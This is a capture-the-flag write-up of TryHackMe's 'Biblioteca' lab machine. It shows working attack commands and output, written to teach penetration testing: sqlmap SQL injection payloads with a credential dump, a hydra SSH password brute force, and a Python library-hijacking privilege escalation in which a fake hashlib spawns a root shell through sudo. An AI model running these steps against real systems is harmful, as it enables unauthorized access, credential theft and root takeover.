




# Biblioteca
**Date:** May 23rd 2022

**Author:** j.info

**Link:** [**Biblioteca**](https://tryhackme.com/room/biblioteca) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>



<br>

## Objectives
- user flag
- root flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.20.17`

```
ORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.20.17 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/login                (Status: 200) [Size: 856]
/register             (Status: 200) [Size: 964]
/logout               (Status: 200) [Size: 856]
```

<br>

## Website Digging

Visiting the main page:



Checking out **/register**:


We're allowed to register a user:



I try and register the same user again to see if we can enumerate usernames that way, and we can:


I try to use some basic **SQLi** against the login form and decide to just test it with **sqlmap**:

`sqlmap -u http://10.10.20.17:8000/login -T users --dump --forms --crawl=2`

```
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 57 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=eHNV' AND (SELECT 7962 FROM (SELECT(SLEEP(5)))HxbM) AND 'OJUx'='OJUx&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: username=eHNV' UNION ALL SELECT NULL,CONCAT(0x716b627071,0x6156636f4f696a6466434270784658745677744752785a6a49795761667243456249645142557959,0x716b627171),NULL,NULL-- -&password=

[12:01:13] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[12:01:13] [INFO] fetching entries for table 'users' in database 'website'

[1 entry]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | <REDACTED>     | smokey   |
+----+-------------------+----------------+----------+
```

Well, that was easy! We now have some login credentials.

I login to the webpage with these credentials, but it doesn't allow us to actually do anything:


<br>

## Smokey

I test to see if we can **ssh** over as **smokey**:

`ssh smokey@10.10.20.17`

```
smokey@10.10.20.17's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 23 May 2022 09:28:50 PM UTC

  System load:  0.0               Processes:             116
  Usage of /:   61.3% of 9.78GB   Users logged in:       0
  Memory usage: 62%               IPv4 address for eth0: 10.10.20.17
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Dec  7 03:21:42 2021 from 10.0.2.15
smokey@biblioteca:~$
```

<br>

## System Enumeration

Checking `sudo -l` shows us we don't have any permissions there:

```
Sorry, user smokey may not run sudo on biblioteca.
```

Which is odd because we see a **.sudo_as_admin_successful** file in his home directory:

```
-rw-r--r-- 1 smokey smokey    0 Dec  7 00:22 .sudo_as_admin_successful
```

Our `id` results show nothing out of the ordinary:

```
uid=1000(smokey) gid=1000(smokey) groups=1000(smokey)
```

Checking users on the system shows us 2 other than root:

```
smokey:x:1000:1000:smokey:/home/smokey:/bin/bash
hazel:x:1001:1001::/home/hazel:/bin/bash
```

I want to check out the files in the website directory next, but it's not located in the standard /var/www directory. Running a search for index.html shows us it's in **/var/opt/app/templates**:

`find / -name index.html 2>/dev/null`

`ls -al /var/opt/app/templates`

```
-rw-rw-r-- 1 smokey smokey  553 Dec  7 00:46 index.html
-rw-rw-r-- 1 smokey smokey  924 Dec  7 00:45 login.html
-rw-rw-r-- 1 smokey smokey 1032 Dec  7 01:09 register.html
```

Looking through these files don't give us anything useful. Backing up one directory to **/var/opt/app** gives us a file called **app.py** and inside we find some hard coded credentials to the MySQL database:

```
app.secret_key = '$uperS3cr3tK3y'

app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'smokey'
app.config['MYSQL_PASSWORD'] = '<REDACTED>'
app.config['MYSQL_DB'] = 'website'
```

`mysql -u smokey -p`

```
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 157
Server version: 8.0.28-0ubuntu0.20.04.3 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

`show databases;`

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| website            |
+--------------------+
```

`use website;`

`show tables;`

```
+-------------------+
| Tables_in_website |
+-------------------+
| users             |
+-------------------+
```

`select * from users;`

```
+----+----------+----------------+-------------------+
| id | username | password       | email             |
+----+----------+----------------+-------------------+
|  1 | smokey   | <REDACTED    > | smokey@email.boop |
+----+----------+----------------+-------------------+
```

I check for **SUID** and **GUID** files, as well as files with capabilities and nothing useful comes back.

I look through various directories such as **/tmp**, **/opt**, and pretty much everwhere else and don't find anything.

I upload **linPEAS** and run it, and it doesn't find anything either.

So not having much else to go on and knowing we have another user named **hazel** I try a few passwords such as password, password123, etc and don't have luck with that.

I try and brute force my way into their account with **hydra**:

`hydra -l hazel -P rockyou.txt 10.10.20.17 ssh`

It takes awhile, but does find it, and I should have tried it from the start:

```
[22][ssh] host: 10.10.20.17   login: hazel   password: <REDACTED>
```

<br>

## Hazel

`ssh hazel@10.10.20.17`

```
hazel@10.10.20.17's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 23 May 2022 10:09:41 PM UTC

  System load:  0.0               Processes:             118
  Usage of /:   58.4% of 9.78GB   Users logged in:       0
  Memory usage: 71%               IPv4 address for eth0: 10.10.20.17
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Dec 12 04:36:05 2021 from 10.0.2.15
hazel@biblioteca:~$
```

Waiting for us in the home directory is our first flag: **user.txt**:

`wc -c user.txt`

```
45 user.txt
```

Checking `sudo -l` on hazel:

```
Matching Defaults entries for hazel on biblioteca:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on biblioteca:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```

Looking at the python code for that **hasher.py** file:

```python
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

Similiar to modifying your path to get something to load from somewhere it shouldn't we can do the same thing here. This is called **library hijacking**. If we look to see where **hashlib.py** is located on the system:

`find / -name hashlib.py 2>/dev/null`

```
/usr/lib/python3.8/hashlib.py
```

And then copy that over to **/tmp**:

`cp /usr/lib/python3.8/hashlib.py /tmp`

Then we can modify our new file to the following:

```
import pty
pty.spawn("/bin/bash")
```

<br>

## Root

Now that we have our own malicious **hashlib.py** in the **/tmp** directory we can run the **hasher.py** as root using sudo and tell Python to use our file instead of the normal one like this:

`sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py`

```
root@biblioteca:/home/hazel#
```

What happend here is the first line of Python code:  **import hashlib**   goes and tries to find **hashlib.py** and load it for use in the program. We told it to check in /tmp first, which it did, and then loaded hashlib.py from there.

In the **/root** directory we see a **root.txt**:

`wc -c /root/root.txt`

```
31 /root/root.txt
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **sqlmap** to find a **SQLi** vulnerability on a webpage which revealed login credentials
- Finding hard coded **MySQL credentials** in a webpage config file and then using them to manually look through the database
- Using **hydra** to take advantage of a weak password for another account for lateral movement
- Finding that we can run a specific python program as root and using **library hijacking** to escalate to root

<br>

Many thanks to:
- [**hadrian3689**](https://tryhackme.com/p/hadrian3689) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)